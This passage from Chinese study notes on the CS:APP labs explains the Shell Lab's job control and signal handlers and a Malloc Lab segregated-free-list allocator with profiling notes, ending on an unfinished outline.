void sigtstp_handler(int sig);
void sigint_handler(int sig);
```

eval 函数：

```c
// ....
sigset_t mask_all, prev, one;
sigfillset(&mask_all);
sigemptyset(&one);
sigaddset(&one, SIGCHLD);
sigprocmask(SIG_BLOCK, &one, &prev);

pid_t pid = -1;
if ((pid = fork()) == 0)
{
    setpgid(0, 0);
    if (verbose)
        printf("[Child]pid:%d, gpid:%d\n", getpid(), getpgrp());
    sigprocmask(SIG_SETMASK, &prev, NULL);
    if (execve(argv[0], argv, NULL) < 0)
    {
        printf("%s: Command not found\n", argv[0]);
        exit(0);
    }
}

if (pid > 0)
{
    int state = bg ? BG : FG;
    sigprocmask(SIG_BLOCK, &mask_all, NULL);
    addjob(jobs, pid, state, cmdline);
    sigprocmask(SIG_SETMASK, &prev, NULL);
    if (!bg)
    {
        ppid = pid;
        waitfg(pid);
    }
    else
    {
        struct job_t *j = getjobpid(jobs, pid);
        printf("[%d] (%d) %s", j->jid, j->pid, j->cmdline);
    }
}
// ....
```

在这个函数中需要注意的点：

* 并发问题 1：必须要保证将任务添加到队列中，才可以对任务进行删除。因此父进程屏蔽掉 `SIGCHLD` 信号，等待添加任务完毕之后，再接触对 `SIGCHLD` 信号的屏蔽。
* 并发问题 3：对于共享资源 `jobs` 的访问需要保证其操作的原子性，保证其不会被打断。
* 如果是前台(Foreground)任务，父进程应该等待 (`waitfg`)
* 如果内核向父进程发送一个信号，那么其同一个进程组内的所有进程都会收到同一个信号；如果我们指向暂停一个进程，并不像暂停其他进程，那么就会遇到麻烦。因此使用 `setpgid(0, 0)` 为 shell 中每个子进程分配一个独立的进程组，并且子进程信号还是能发送给 shell 进程。

```c
void waitfg(pid_t pid) {
    while (1) {
        struct job_t *j = getjobpid(jobs, pid);
        if (j != NULL && j->state == FG)sleep(0.001);
        else break;
    }
    return;
}
```

对于等待前台任务只需要轮询检测 pid 的 job 状态是否仍在前台即可。

对于 Handler，`SIGINT` 和 `SIGTSTP` 的信号都是发送给当前的前台进程的，因此 shell 只需要对前台进程发送信号即可：

```c
void sigint_handler(int sig)
{
    int olderr = errno;

    sigset_t mask, prev;
    sigfillset(&mask);
    struct job_t *j;
    if ((j = getjobpid(jobs, ppid)) != NULL)
    {
        sigprocmask(SIG_BLOCK, &mask, &prev);
        printf("Job [%d] (%d) terminated by signal %d\n", j->jid, j->pid, sig);
        j->state = UNDEF;
        kill(ppid, SIGINT);
        sigprocmask(SIG_SETMASK, &prev, NULL);
    }

    errno = olderr;
    return;
}

void sigtstp_handler(int sig)
{
    int olderr = errno;

    sigset_t mask, prev;
    sigfillset(&mask);
    struct job_t *j;
    if ((j = getjobpid(jobs, ppid)) != NULL && j->state == FG)
    {
        sigprocmask(SIG_BLOCK, &mask, &prev);
        kill(ppid, SIGTSTP);
        ppid = -1;
        sigprocmask(SIG_SETMASK, &prev, NULL);
    }

    errno = olderr;
    return;
}
```

这里需要注意并发问题 2：再向子进程发送信号之前应该屏蔽掉 `SIGCHLD` 信号，等发送信号完毕之后再解除屏蔽。

最后一个即是对 `SIGCHLD` 信号的处理，这也是比较麻烦的情况：

收到 `SIGCHLD` 信号可能有以下几种情况：

* 子进程正常退出，`WIFEXITED(state)` 会为真。
* 子进程收到父进程 `SIGINT` 退出，通过软件实现 `j->state = UNDEF`，如果收到其他进程的 `SIGINT` 信号，需要通过函数 `WIFSIGNALED(state)` 查看是否收到信号，并且根据 `WTERMSIG(state)` 是否收到的是 SIGINT 函数来判断进程的状态，来对子进程队列 `jobs` 进行操作。
* 子进程收到 `SIGTSTP` 暂停，通过宏函数 `WIFSTOPPED(state)` 会为真。
* 子进程收到父进程 `SIGCONT` 继续运行，这种情况无需处理，直接忽略。

```c
void sigchld_handler(int sig)
{
    int olderr = errno;
    // Set mask
    sigset_t mask, prev;
    sigfillset(&mask);
    pid_t pid = -1;
    int state;
    if (verbose)
        printf("[%d] recv SIGCHLD.\n", getpid());
    sigprocmask(SIG_BLOCK, &mask, &prev);
    while ((pid = waitpid(-1, &state, WUNTRACED | WNOHANG)) > 0)
    {
        struct job_t *j = getjobpid(jobs, pid);
        if (WIFEXITED(state) || j->state == UNDEF)
        {
            // Normal exit and SIGINT
            if (verbose)
                printf("[%d]Child(%d) exit with state: %d\n", getpid(), pid, j->state);
            deletejob(jobs, pid);
            // sigprocmask(SIG_SETMASK, &prev, NULL);
        }
        else if (WIFSTOPPED(state) && j->state == FG)
        {
            // sigprocmask(SIG_BLOCK, &mask, &prev);
            if (verbose)
                printf("[%d]Child(%d) recv SIGTSTP.\n", getpid(), pid);
            printf("Job [%d] (%d) stopped by signal %d\n", j->jid, j->pid, SIGTSTP);
            j->state = ST;
        } else if (WIFSIGNALED(state)) {
            int s = WTERMSIG(state);
            if (s == SIGINT) {
                printf("Job [%d] (%d) terminated by signal %d\n", j->jid, j->pid, s);
                deletejob(jobs, pid);
            } else if (s == SIGTSTP) {
                printf("Job [%d] (%d) stopped by signal %d\n", j->jid, j->pid, SIGTSTP);
                j->state = ST;
            }
        }
    }
    fflush(stdout);
    sigprocmask(SIG_SETMASK, &prev, NULL);
    if (verbose)
        printf("[%d] Over SIGCHLD.\n", getpid());
    errno = olderr;
    return;
}
```

并且还需要注意并发问题 3，对于共享资源需要进行保护其不可被打断。

### 6. Malloc Lab

> lab 所给文件中并没有 traces 文件，额外的 traces 文件下载：https://github.com/lsw8075/malloc-lab (只需要使用其中的 traces 文件夹即可)，然后修改 lab 中 `config.h` 中默认测试的文件目录。

在书的 599 页讲了很多常用便捷的宏命令，善用好这些宏命令可以更加快速编程。Malloc Lab 如果使用最简单的代码很容易通过，但是达到很高的分数需要很多精细的性能调优，教授们精心设置的 trace 文件就是引导学生掌握一个新的优化技巧，十分推荐动手做。

在 gcc 编译的时候添加 `-g` 在 gdb 中可以查看源代码信息，如果想查看宏信息使用 `-g3`：

```sh
gcc -Wall -O2 -m32 -g -o mdriver mdriver.o mm.o memlib.o fsecs.o fcyc.o clock.o ftimer.o -lm
```

如果使用 `math.h` 文件建议后面添加 `-lm` flag。

**思想**：使用**分离空闲链表**(segregate list)的形式来管理内存中的空闲块。空闲链表的大小划分范围为 $(2^{n-1},2^n]$


每个空闲块的形式如图，最小块的大小为 4 字大小，每个空闲链表表头，表头中不含任何内容，链表的数量为 $LN$。红色的线表示正好为 8 正数倍的地址开头。

假设在 32 为机器上，字的大小为 4 字节（使用 $WSIZE$ 表示）。首先需要进行初始化，先向内核申请空间链表头所需要的大小，总共需要 $4*LN+4$，其中后面的 4 是为了对齐使用。

```c
int mm_init(void)
{
    // 首先初始化 LN 个分离空闲链表头
    size_t overall_size = LN * (MIN_BLK_SIZE) + WSIZE; // link headers and Padding size
    if ((HEAP_START = mem_sbrk(overall_size)) == (void *)-1)
        return -1;

    // Padding header
    PUT(HEAP_START, 0);
    void *p = HEAP_START + WSIZE;
    for (size_t i = 0; i < LN; i++)
    {
        // Header
        PUT(p, PACK(MIN_BLK_SIZE, 1));
        // Next
        PUT(p + WSIZE, 0);
        // Prev
        PUT(p + WSIZE * 2, 0);
        // Footer
        PUT(p + WSIZE * 3, PACK(MIN_BLK_SIZE, 1));
        // Store to global variable
        seg[i] = p + WSIZE; // 指向 BLOCK 部分

        p = p + WSIZE * 4;
    }

    return 0;
}
```

由于使用分离列表来维护空闲块的位置，因此需要完成两个 API 函数，插入空闲列表和从空闲列表中删除。每个空闲列表处理相当于处理双向链表，其次需要关注对于各空闲块中属性的修改和维护。

插入空闲列表支持两种方式：

* FIFO 头插法模式，效率较高，但是会产生较多碎片（根据实验效果来看，产生的碎片几乎可以忽略）
* 按照地址排序模式，有着较好的内存利用率，但是从实验结果来看会明显降低计算吞吐量。

```c
/**
 * Insert free block to correspondding segregated list with address order.
 */
void insert_to_list(void *bp)
{
    // 1. find which list belongs to
    size_t size = GET_SIZE_INFO(HDRP(bp));
    int idx = round(log2(size));
    idx = idx >= LN ? LN - 1 : idx;
    void *cur = seg[idx];
    void *nxt_bp = GET_NEXT_ADDR(cur);
    if (IST_METHOD == 1)
    {
        // 2a. find an appropriate position
        // void *pre_bp = GET_PREV_ADDR(cur);
        while (nxt_bp != (void *)0 && bp > nxt_bp)
        {
            cur = nxt_bp;
            nxt_bp = GET_NEXT_ADDR(nxt_bp);
        }
    }
    else if (IST_METHOD == 2)
    {
        // 2b. FIFO insert
        // nothing
    }

    // 3. Set fields information
    // Set next field in previous block
    PUT(cur + WSIZE, bp);
    // Set prev and next field in bp
    PUT(bp, cur);            // prev
    PUT(bp + WSIZE, nxt_bp); // next
    // Set prev field in next block
    if (nxt_bp != NULL)
        PUT(nxt_bp, bp);
}
```

从空闲列表中删除空闲块：

```c
/**
 * Remove block from correspondding list
 * 1. find which segregate list belongs to according SIZE info
 * 2. find which block is bp in corresponding list
 * 3. remove this block from list
 */
void remove_from_list(void *bp)
{
    // 1. find which list belongs to
    size_t size = GET_SIZE_INFO(HDRP(bp));
    int idx = round(log2(size));
    idx = idx >= LN ? LN - 1 : idx;
    void *cur = seg[idx];
    // 2. find which block is bp
    void *pre = NULL;
    void *next = GET_NEXT_ADDR(cur);
    while (cur != bp && cur != NULL)
    {
        pre = cur;
        cur = next;
        if (next)
            next = GET_NEXT_ADDR(next);
    }

    if (cur == NULL)
    {
        // Use to debug.
        printf("[ERROR]NOT FOUND addr: %lx.\n", bp);
        return; // 404 not found
    }
    else
    {
        PUT(pre + WSIZE, next);
        if (next)
            PUT(next, pre);

        /**
         * NOTE TO ME: This maybe redundant.
         */
        PUT(bp, 0);
        PUT(bp + WSIZE, 0);
    }
}
```

释放内存块实现比较简单，只需要将对应的标志位修改，然后再查看周围是否可合并即可：

```c
/*
 * mm_free - Freeing a block does nothing.
 */
void mm_free(void *ptr)
{
    size_t s = GET_SIZE_INFO(HDRP(ptr));

    PUT(HDRP(ptr), PACK(s, 0));
    PUT(FTRP(ptr), PACK(s, 0));

    coalesce(ptr);
}
```

在合并内存块的时候需要考虑<a href="#8. 动态内存分配——进阶">四种情况</a>，如果被合并的空闲块要从对应的分离列表中及时删除，并且需要注意查看下一个内存块的时候考虑是否越界的问题：

```c
/**
 * Check if address excceed the heap
 */
int if_excceed(void *p)
{
    if (p > (mem_heapsize() + HEAP_START))
        return 1;
    else
        return 0;
}

/**
 * Merge free blocks and insert into segregate lists.
 */
void *coalesce(void *bp)
{
    void *pre_bp = PREV_BLKP(bp);
    void *nxt_bp = NEXT_BLKP(bp);
    size_t prev_alloc = GET_ALLOC_INFO(FTRP(pre_bp));
    size_t next_alloc = if_excceed(nxt_bp) ? 1 : GET_ALLOC_INFO(HDRP(nxt_bp));
    size_t size = GET_SIZE_INFO(HDRP(bp));

    if (prev_alloc && next_alloc)
    {
    }
    else if (prev_alloc && !next_alloc)
    {
        // remove nxt_bp in its list
        remove_from_list(nxt_bp);
        size += GET_SIZE_INFO(HDRP(nxt_bp));
        PUT(HDRP(bp), PACK(size, 0));
        PUT(FTRP(nxt_bp), PACK(size, 0));
    }
    else if (!prev_alloc && next_alloc)
    {
        size += GET_SIZE_INFO(HDRP(pre_bp));
        remove_from_list(pre_bp);
        PUT(HDRP(pre_bp), PACK(size, 0));
        PUT(FTRP(bp), PACK(size, 0));
        bp = pre_bp;
    }
    else
    {
        size += GET_SIZE_INFO(HDRP(pre_bp)) + GET_SIZE_INFO(HDRP(nxt_bp));
        // remove_from_list(bp);
        remove_from_list(pre_bp);
        remove_from_list(nxt_bp);
        PUT(HDRP(pre_bp), PACK(size, 0));
        PUT(FTRP(nxt_bp), PACK(size, 0));
        bp = pre_bp;
    }

    insert_to_list(bp);
    return bp;
}
```

在分配内存块方面，主要有两个流程：

1. 先从已分配空闲列表中查找有没有符号要求的空闲内存块
2. 如果没有满足情况的，就向内核请求继续分配堆

```c
/*
 * mm_malloc - Allocate a block by incrementing the brk pointer.
 *     Always allocate a block whose size is a multiple of the alignment.
 */
void *mm_malloc(size_t size)
{
    // pre. validation check
    if (size == 0)
        return NULL;

    // 1. check if has free block
    size = ALIGN(size + WSIZE * 2); // Add the header and footer size
    if (size < MIN_BLK_SIZE)
        size = MIN_BLK_SIZE;

    int idx = round(log2(size));
    idx = idx >= LN ? LN - 1 : idx;
    void *bp = NULL;
    void *p;
    for (; idx < LN; idx++)
    {
        void *p = GET_NEXT_ADDR(seg[idx]);
        // First fit
        while (p != NULL && GET_SIZE_INFO(HDRP(p)) < size)
            p = GET_NEXT_ADDR(p);

        if (p != NULL)
        {
            bp = p;
            break;
        }
    }

    // Can not find fit free block
    if (bp == NULL)
        bp = extend_heap(size / WSIZE);

    // extend heap is in seg list, fit block is also in list.
    remove_from_list(bp);

    // bp point to free block
    // Learn: 不需要剩下很小的碎片
    if (GET_SIZE_INFO(HDRP(bp)) >= MIN_BLK_SIZE + size)
    {
        // if allocated block greater than size
        void *p = bp + size;
        size_t o_size = GET_SIZE_INFO(HDRP(bp)) - size;
        PUT(HDRP(p), o_size);
        PUT(FTRP(p), o_size);
        insert_to_list(p);
    }
    else
    {
        size = GET_SIZE_INFO(HDRP(bp));
    }

    // set bp block size
    PUT(HDRP(bp), PACK(size, 1));
    PUT(FTRP(bp), PACK(size, 1));

    return bp;
}
```

<h4>🚩小细节：</h4>

假如释放一个小于 4 个字大小空闲块，插入到分离链表中就无法承载 header, footer, next, prev 四个域的内容。因此比如在请求分配 16 字节以下大小的内存时候，应该设置最小值为 16.

在分配内存块的时候，如果分离空闲链表中有合适大小的内存块可分配，如果可分配内存块大小大于请求大小，就需要可分配内存块进行分割，充分利用内存块。


如果剩余空间小于最小空闲块，那么这个剩余空间无法利用，就直接算为请求块的一部分，即内部碎片；如果剩余空间大于等于最小空闲块的大小，则可以将剩余的块重新添加到分离链表中进行再利用。

<h4>🔵初步实验结果：</h4>


可以看到使用 address order 勉强可以达到及格分，使用 FIFO order 可以明显提高内存分配吞吐量，在部分实验上小幅度降低利用率。

<h4>🚩性能调优：</h4>

* 程序剖析工具 `gprof`

  参考链接：[Linux性能优化gprof使用 - 博客园](https://www.cnblogs.com/youxin/p/7988479.html)

  gprof用于分析函数调用耗时，可用之抓出最耗时的函数，以便优化程序。

  1. gcc -pg 编译程序
  2. 运行程序，程序退出时生成 gmon.out
  3. gprof -b ./prog gmon.out 查看输出

* 分析 `binary-bal.rep` trace 文件（56分 -> xx 分）

  通过 gprof 查看程序中所占用时间的：

  

  可以看到 `mm_malloc` 占用了 68.75% 的时间。

  查看这个 trace 文件的内存分配过程：

  ```
  a 0 64
  a 1 448
  a 2 64
  a 3 448
  a 4 64
  a 5 448
  a 6 64
  a 7 448
  a 8 64
  ....
  f 1
  f 3
  f 5
  ....
  a 4000 512
  a 4001 512
  a 4002 512
  ....
  f 0
  f 2
  f 4
  ...
  ```

  其大致操作为：

  1. 间隔分配大小为 a, b, a, b .... 的内存块
  2. 释放所有大小为 b 的内存块
  3. 再分配大小 c = a + b 大小的内存块
  4. 释放所有双数索引操作的内存块

  

  可以看到，当分配 512字节内存的时候，由于内存中含有巨大的空闲空间但是没有一片是可以直接使用的。

  拟采用的策略：

  1. 如果分离空闲链表中找不到一块满足请求大小的内存块，进入第二步

  2. 首先设置 CHUNK_SIZE （为一个常量，比如 4096 字节）

     * 如果请求大小 < CHUNK_SIZE，首先分配一块请求大小（比如 22 字节）的内存块，剩余平分为当前所属分离列表分区中可以存放最大内存块的大小（22字节大小所属链对应大小为 32 字节）。在插入空闲列表的时候如果采用的是头插法，则按照地址逆序插入，逆序插入正序使用，并且由于合并操作的存在，可以减少碎片。否则会出现下图的情况

       

     * 如果请求大小 >= CHUNK_SIZE，则直接分配对应的大小。

  3. 

* 
